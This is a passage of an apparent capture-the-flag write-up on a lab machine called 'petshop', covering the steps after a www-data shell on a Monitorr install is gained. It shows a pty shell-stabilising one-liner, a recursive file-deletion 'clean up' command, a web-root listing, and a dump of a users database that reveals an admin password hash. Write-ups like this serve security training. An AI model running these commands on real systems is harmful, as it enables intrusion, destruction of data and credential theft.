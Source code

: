 We're in!

Time for stabilizing the shell a bit (I didn't find the way to fully stabilize `zsh` shell yet) and clean up.

```sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
find . -type f -not -name '*.png' -delete
alias ls="ls -lah"
```

Let's look around a bit.

# www-data access

```sh
/www-data@petshop:/var/www/monitorr$ ls -la
ls -la
total 184
drwxr-xr-x  4 www-data www-data  4096 Apr 11 14:24 .
drwxr-xr-x  5 root     root      4096 Apr 30 16:12 ..
-rw-r--r--  1 www-data www-data   355 Apr 11 00:07 ISSUE_TEMPLATE.md
-rw-r--r--  1 www-data www-data  1086 Apr 11 00:07 LICENSE.txt
-rw-r--r--  1 www-data www-data  5086 Apr 11 00:07 README.md
-rw-r--r--  1 www-data www-data    25 Apr 11 00:07 _config.yml
drwxr-xr-x 11 www-data www-data  4096 Apr 11 00:07 assets
-rw-r--r--  1 www-data www-data  4655 Apr 11 14:20 changelog.html
drwxr-xr-x  2 www-data www-data  4096 Apr 11 00:11 data
-rw-r--r--  1 www-data www-data   915 Apr 11 00:11 datamonitorr_data_directory.txt
-rw-r--r--  1 www-data www-data    52 Apr 11 00:11 datamonitorr_install_path.txt
-rw-r--r--  1 www-data www-data   577 Apr 11 14:22 dataservices_settings-data.json
-rw-r--r--  1 www-data www-data   356 Apr 11 00:11 datasite_settings-data.json
-rw-r--r--  1 www-data www-data   217 Apr 11 00:11 datauser_preferences-data.json
-rw-r--r--  1 www-data www-data  8192 Apr 11 00:12 datausers.db
-rw-r--r--  1 www-data www-data 41160 Apr 11 00:07 favicon.ico
-rw-r--r--  1 www-data www-data 16862 Apr 11 00:07 index.min.php
-rw-r--r--  1 www-data www-data 17732 Apr 11 14:23 index.php
-rw-r--r--  1 www-data www-data    87 Apr 11 00:07 robots.txt
-rw-r--r--  1 www-data www-data 19318 Apr 11 14:24 settings.php
-rw-r--r--  1 www-data www-data   352 Apr 11 00:07 webmanifest.json
www-data@petshop:/var/www/monitorr$ cat datausers.db
cat datausers.db
����ktableusersusersCREATE TABLE `users` (
                        `user_id` INTEGER PRIMARY KEY,
                        `user_name` varchar(64),
                        `user_password_hash` varchar(255),
admin$2y$10$q1BI3CSqToALH2Q1r2weLeRpyU7QbonizeVxJnPIieo/drbRSzVTawww-data@petshop:/var/www/monitorr$ 

```

Output is a bit off, but database admin password hash can be read.
